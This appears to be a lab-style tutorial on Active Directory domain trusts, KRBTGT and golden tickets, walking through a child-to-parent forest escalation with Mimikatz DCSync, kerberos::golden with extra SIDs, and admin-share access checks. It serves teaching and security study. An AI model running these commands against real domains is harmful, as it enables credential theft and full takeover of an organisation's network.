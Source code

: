 Domain Trusts are a mechanism for users in the network to gain access to other resources in the domain. For the most part, trusts outline how the domains inside of a forest communicate with each other.<br>
There are two main types of trusts that can be configured between domains:

    Directional - The direction of the trust flows from a trusting domain to a trusted domain (one-Way Trust,Two-Way Trust).
    Transitive - If Domain A trusts Domain B and Domain B trusts Domain C, then Domain A will also trust Domain C, creating a chain of trust.
The trust between a parent and child domain is bidirectional. This is intended behaviour and is used to share resources through greater transitive trust relationships. However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.<br> 

**KRBTGT account**

KRBTGT is the account used for Microsoft's implementation of Kerberos. The name is derived from Kerberos (KRB) and Ticket Granting Ticket (TGT). Essentially, this account acts as the service account for the Kerberos Distribution Center (KDC) service, which handles all Kerberos ticket requests. This account is used to encrypt and sign all Kerberos tickets for the domain. Since the password hash is shared by all domain controllers, they can then verify the authenticity of the received TGT when users request access to resources.<br>

**Golden Ticket attack**

In order to forge TGTs, we need the following information:

    The FQDN of the domain
    The Security Identifier (SID) of the domain
    The username of the account we want to impersonate
    The KRBTGT password hash

we need to dump all NTML hashes including the krbtgt account using ```mimkatz```:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync
```

**Inter-Realm TGTs**


If the client requested a TGS to a certain service with his authenticated TGT and this service within another domain (there is a bid trust between them), the Domain controller belongs to his domain will issue a special TGT called an Inter-Realm or Referral Ticket. This ticket is encrypted with the **trust key** between the two domains and contains the user's principal name, the realm name of the domain where the service resides, and the requested service.
 In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.<br>
We will include extra account SIDs of administrative group to grant Administrative privileges over the entire forest!.<br>

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of this administrative group as an extra SID to our forged ticket for the domain controller of the child domain.<br>

Before we can go into exploitation, we first need to recover two SIDs:

    The SID of the child domain controller, which we will impersonate in our forged TGT
    The SID of the group Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover the SID of the child:
```
Get-ADComputer -Identity <TheChildDomain>
```
To recover the SID of the group:
```
Get-ADGroup -Identity "the group Admins" -Server <ParentDOmain>
```
**Exploiting Domain Trusts**

We finally have all of the information required to create our forged TGT. We will use Mimikatz to generate this golden ticket. The command will look something like this:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:<DOmainName> /sid:<OfTHeChildDOmain> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Admins group> /ptt
```

First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:
```
C:\>dir \\ChildDomain.local\c$
```

This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:
```
C:\>dir \\ParentDomain\c$\
```


